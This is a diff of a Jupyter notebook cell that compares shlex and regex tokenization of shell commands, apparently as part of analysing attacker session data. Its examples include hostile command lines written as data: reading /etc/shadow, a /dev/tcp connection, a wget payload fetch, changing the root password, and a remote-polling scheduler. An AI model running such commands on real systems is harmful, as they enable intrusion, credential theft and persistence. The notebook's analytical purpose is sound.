

Before and after one commit to grabls/proj6_ml4n, a Jupyter notebook: notebooks/01_data.ipynb, the cells around one changed output, grey strips where cells are left out. Shown at 99% size. Cells and saved outputs as stored; diff of their text form; code cells hidden in the pictures; blank space fills up the shorter version.

```diff
--- a/notebooks/01_data.ipynb
+++ b/notebooks/01_data.ipynb
@@ -323,0 +1116,49 @@ Record settings, observations and limitations after the experiment runs.
+# %%
+# --- shlex vs regex on hand-written examples ------------------------------------
+# The examples of Section B, plus cases where the two tokenizers are expected to differ:
+#   * "quote never closed" and "password with an unescaped quote" are malformed
+#     commands (the second one occurs in 23 sessions, Section D);
+#   * the two "shared limit" rows are valid shell that NEITHER tokenizer models
+#     (how often they occur is counted at the end of this section).
+# The "shlex" column is data.shlex_tokenize, so when shlex fails it shows the
+# split() fallback.
+regex_examples = {
+    **examples,
+    "backtick substitution":            "x=`id` ; echo `uname -m`",
+    "redirection of stderr":            "cat /etc/shadow 2>/dev/null || echo no",
+    "other bash operators":             "echo ok |& cat ; exec 3<> /dev/tcp/10.0.0.1/80 ; cat 0<&3",
+    "quoted part inside a word":        'add name=upd on-event="/tool fetch url=http://x.tech/poll"',
+    "quote never closed":               "echo 'abc ; def",
+    "password with an unescaped quote": 'echo "admin _KeeperOf%Keys"" > /tmp/up.txt',
+    "shared limit: escaped ;":          r"find / -name '*.sh' -exec rm {} \;",
+    'shared limit: command inside "…"': 'echo "user: $(id -un)"',
+}
+
+regex_comparison = pd.DataFrame([
+    {"element": element,
+     "text": text,
+     "shlex": data.shlex_tokenize(text),
+     "regex": data.regex_tokenize(text),
+     "same tokens": data.shlex_tokenize(text) == data.regex_tokenize(text)}
+    for element, text in regex_examples.items()
+])
+with pd.option_context("display.max_colwidth", None):
+    display(regex_comparison)
+# %% [output]
+|  | element | text | shlex | regex | same tokens |
+| 0 | operators (pipe) | echo "root:Xy12ab"|chpasswd | [echo, "root:Xy12ab", |, chpasswd] | [echo, "root:Xy12ab", |, chpasswd] | True |
+| 1 | operators (&&, ;) | cd /tmp && wget http://1.1.1.1/ex... | [cd, /tmp, &&, wget, http://1.1.1... | [cd, /tmp, &&, wget, http://1.1.1... | True |
+| 2 | options | cat /proc/cpuinfo | grep name | w... | [cat, /proc/cpuinfo, |, grep, nam... | [cat, /proc/cpuinfo, |, grep, nam... | True |
+| 3 | paths | cat ~/.ssh/authorized_keys /etc/p... | [cat, ~/.ssh/authorized_keys, /et... | [cat, ~/.ssh/authorized_keys, /et... | True |
+| 4 | addresses | wget http://1.1.1.1/exec -O /tmp/... | [wget, http://1.1.1.1/exec, -O, /... | [wget, http://1.1.1.1/exec, -O, /... | True |
+| 5 | quoted strings | echo -e '\x7f\x45\x4c\x46' > .s | [echo, -e, '\x7f\x45\x4c\x46', >,... | [echo, -e, '\x7f\x45\x4c\x46', >,... | True |
+| 6 | quoted string w/ spaces | free -m | grep Mem | awk '{print ... | [free, -m, |, grep, Mem, |, awk, ... | [free, -m, |, grep, Mem, |, awk, ... | True |
+| 7 | case | ls -LA ; ls -la | [ls, -LA, ;, ls, -la] | [ls, -LA, ;, ls, -la] | True |
+| 8 | comment char # | echo "#!/bin/sh" > a.sh ; echo $# ok | [echo, "#!/bin/sh", >, a.sh, ;, e... | [echo, "#!/bin/sh", >, a.sh, ;, e... | True |
+| 9 | limit: 2>&1, $( ) | uname -a 2>&1 ; arch=$(uname -m) | [uname, -a, 2, >&, 1, ;, arch=$, ... | [uname, -a, 2>&1, ;, arch=, $(, u... | False |
+| ... | ... | ... | ... | ... | ... |
+| 13 | quoted part inside a word | add name=upd on-event="/tool fetc... | [add, name=upd, on-event="/tool, ... | [add, name=upd, on-event="/tool f... | False |
+| 14 | quote never closed | echo 'abc ; def | [echo, 'abc, ;, def] | [echo, ', abc, ;, def] | False |
+| 15 | password with an unescaped quote | echo "admin _KeeperOf%Keys"" > /t... | [echo, "admin, _KeeperOf%Keys"", ... | [echo, "admin _KeeperOf%Keys", ",... | False |
+| 16 | shared limit: escaped ; | find / -name '*.sh' -exec rm {} \; | [find, /, -name, '*.sh', -exec, r... | [find, /, -name, '*.sh', -exec, r... | True |
+| 17 | shared limit: command inside "…" | echo "user: $(id -un)" | [echo, "user: $(id -un)"] | [echo, "user: $(id -un)"] | True |
```
Also changed, not shown: parts of 45 cells of this notebook, 1 other file.
